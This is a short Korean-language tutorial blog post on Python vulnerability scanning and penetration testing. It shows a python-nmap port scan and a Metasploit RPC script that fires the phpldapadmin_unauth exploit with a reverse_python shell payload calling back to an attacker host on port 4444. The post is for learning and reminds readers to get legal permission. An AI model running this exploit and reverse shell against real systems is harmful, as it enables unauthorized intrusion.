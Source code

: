 ```yaml
---
layout: post
title: "[파이썬] 보안 취약점 스캐닝과 펜테스팅"
description: " "
date: 2023-09-01
tags: [python]
comments: true
share: true
---
```


보안은 현대의 디지털 환경에서 매우 중요한 요소입니다. 악의적인 공격으로부터 시스템을 보호하기 위해서는 취약점을 찾아내고 이를 해결하는 과정이 필요합니다. 여기서는 파이썬을 사용하여 보안 취약점 스캐닝과 펜테스팅을 수행하는 방법에 대해 알아보겠습니다.

## 보안 취약점 스캐닝

보안 취약점 스캐닝은 시스템이나 네트워크에서 취약점이 있는지 확인하는 과정입니다. 파이썬에서는 다양한 라이브러리와 도구를 사용하여 취약점 스캐닝을 수행할 수 있습니다. 예를 들어, `nmap`은 네트워크 스캐닝과 포트 스캐닝을 위한 도구이며, `OpenVAS`는 취약점 스캐닝 및 관리 도구입니다.

다음은 `nmap`을 사용하여 네트워크 내에서 열려있는 포트를 스캐닝하는 예제 코드입니다.

```python
import nmap

# 스캐너 생성
scanner = nmap.PortScanner()

# 스캔 수행
result = scanner.scan('192.168.0.1', '1-100')

# 결과 출력
for target in result['scan']:
    print(f"Target: {target}")
    for port in result['scan'][target]['tcp']:
        print(f"Port: {port} - {result['scan'][target]['tcp'][port]['state']}")
```

위의 코드에서는 `nmap.PortScanner()`를 사용하여 `scanner` 객체를 생성한 후, `scan()` 메소드를 호출하여 스캐닝을 수행합니다. 스캔 결과는 `result` 변수에 저장되며, 이를 이용하여 열려있는 포트와 상태를 출력합니다.

## 펜테스팅

펜테스팅은 시스템이나 네트워크의 취약점을 공격자의 시각에서 모의해 보는 과정입니다. 파이썬은 다양한 라이브러리와 도구를 통해 펜테스팅을 수행할 수 있습니다. 예를 들어, `Metasploit Framework`는 펜테스팅 도구로 가장 널리 사용되는 도구 중 하나입니다.

다음은 `Metasploit Framework`를 사용하여 취약점을 모의공격하는 예제 코드입니다.

```python
from metasploit.msfrpc import MsfRpcClient

# Metasploit 연결
client = MsfRpcClient('password')

# 모듈 선택 및 설정
exploit = client.modules.use('exploit', 'exploit/multi/http/phpldapadmin_unauth')
exploit['RHOSTS'] = '192.168.0.100'
exploit['RPORT'] = 80

# 공격 수행
exploit.execute(payload='cmd/unix/reverse_python', LHOST='192.168.0.101', LPORT=4444)
```

위의 코드에서는 `MsfRpcClient()`를 사용하여 Metasploit에 연결한 후, `exploit` 객체를 통해 모듈과 설정을 선택합니다. 마지막으로 `execute()` 메소드를 호출하여 공격을 수행합니다. 위의 예제는 `phpldapadmin_unauth` 취약점을 이용한 모의공격을 수행하는 코드입니다.

## 결론

파이썬을 사용하여 보안 취약점 스캐닝과 펜테스팅을 수행할 수 있습니다. 위에서 소개한 예제 코드를 참고하여 보안 관련 작업을 자동화하고 효율적으로 수행할 수 있습니다. 하지만, 이러한 작업 수행 시에는 항상 적법한 권한과 법적 허가를 가지고 수행해야 합니다.